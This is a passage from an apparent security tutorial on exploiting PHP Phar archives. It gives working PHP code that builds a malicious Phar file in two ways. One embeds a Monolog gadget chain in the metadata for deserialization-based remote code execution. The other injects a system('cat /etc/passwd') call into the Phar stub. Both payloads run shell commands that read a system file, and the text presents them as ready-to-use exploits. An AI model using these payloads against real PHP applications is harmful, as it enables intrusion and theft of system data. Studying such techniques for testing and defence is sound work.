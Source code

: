 * Choose your gadget chain, for example [monolog/RCE1](https://github.com/ambionics/phpggc/tree/master/gadgetchains/Monolog/RCE/1)
* Use both files chain.php and gadgets.php in directory
* Update chain.php to the following:

```php
<?php

require './gadgets.php';

function generate(array $parameters)
{
    $function = $parameters['function'];
    $parameter = $parameters['parameter'];

    return new \Monolog\Handler\SyslogUdpHandler(
        new \Monolog\Handler\BufferHandler(
            ['current', $function],
            [$parameter, 'level' => null]
        )
    );
}

$p = array();
$p['function'] = 'system';
$p['parameter'] = 'cat /etc/passwd';
$obj = generate($p);

$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();
```

Now use `php -d phar.readonly=0 chain.php` to create phar file and you will get RCE

![image](https://hackmd.io/_uploads/rkkZayzOxl.png)

## Phar Stub Bypass with gzip

This exploit still works in PHP 8 and does not involve deserialization.

Remember stub? It’s the PHP code at the beginning of a Phar archive that ends with __HALT_COMPILER();. So what if we inject PHP code before it ?

```php
<?php

$obj = 1;
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php system("cat /etc/passwd"); __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();

?>
```
